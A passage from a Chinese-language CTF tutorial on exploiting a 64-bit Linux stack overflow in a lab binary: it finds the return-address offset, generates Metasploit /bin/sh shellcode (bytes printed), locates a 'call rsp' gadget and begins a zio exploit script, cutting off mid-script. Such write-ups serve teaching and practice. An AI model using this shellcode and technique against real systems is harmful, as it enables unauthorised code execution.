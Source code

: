 ![enter image description here](http://drops.javaweb.org/uploads/images/84abdf8a81bead25c083fd4c31c0ebb3f3d234a6.jpg)

可以看出从第四十个字节开始的八个字节就会覆盖返回地址

5 写exp

首先我们需要一个shellcode,这可以通过msf生成 生成命令如下

```
show payload   
use linux/x64/exec
set cmd /bin/sh
generate -t py -b "/x00"

```

即可得到shellcode

```
# linux/x64/exec - 87 bytes
# http://www.metasploit.com
# Encoder: x64/xor
# VERBOSE=false, PrependFork=false, PrependSetresuid=false, 
# PrependSetreuid=false, PrependSetuid=false, 
# PrependSetresgid=false, PrependSetregid=false, 
# PrependSetgid=false, PrependChrootBreak=false, 
# AppendExit=false, CMD=/bin/sh
buf =  ""
buf += "\x48\x31\xc9\x48\x81\xe9\xfa\xff\xff\xff\x48\x8d\x05"
buf += "\xef\xff\xff\xff\x48\xbb\xab\xb5\xd9\xba\x45\x0a\xfd"
buf += "\x44\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
buf += "\xc1\x8e\x81\x23\x0d\xb1\xd2\x26\xc2\xdb\xf6\xc9\x2d"
buf += "\x0a\xae\x0c\x22\x52\xb1\x97\x26\x0a\xfd\x0c\x22\x53"
buf += "\x8b\x52\x4d\x0a\xfd\x44\x84\xd7\xb0\xd4\x6a\x79\x95"
buf += "\x44\xfd\xe2\x91\x33\xa3\x05\xf8\x44"

```

然后我们还需要一个跳板作为返回地址 peda就有这种功能

```
jmpcall rsp

```

![enter image description here](http://drops.javaweb.org/uploads/images/e867211b329db5e53e284f17d4312df68aecfc78.jpg)

我们就采用第一个地址, 注意64位系统,和little endian

然后我们使用zio写exp

```
from zio import *

io = zio('./pwn1')
# io = zio(('127.0.0.1', 1234))

io.read_until('overflow!')

pad = 'a' * 40

# 0x 43 68 7d : call rsp
jmpAddr = '\x7d\x68\x43\x00\x00\x00\x00\x00'

shellcode =  ""
shellcode += "\x48\x31\xc9\x48\x81\xe9\xfa\xff\xff\xff\x48\x8d\x05"
shellcode += "\xef\xff\xff\xff\x48\xbb\xab\xb5\xd9\xba\x45\x0a\xfd"
shellcode += "\x44\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
shellcode += "\xc1\x8e\x81\x23\x0d\xb1\xd2\x26\xc2\xdb\xf6\xc9\x2d"
```
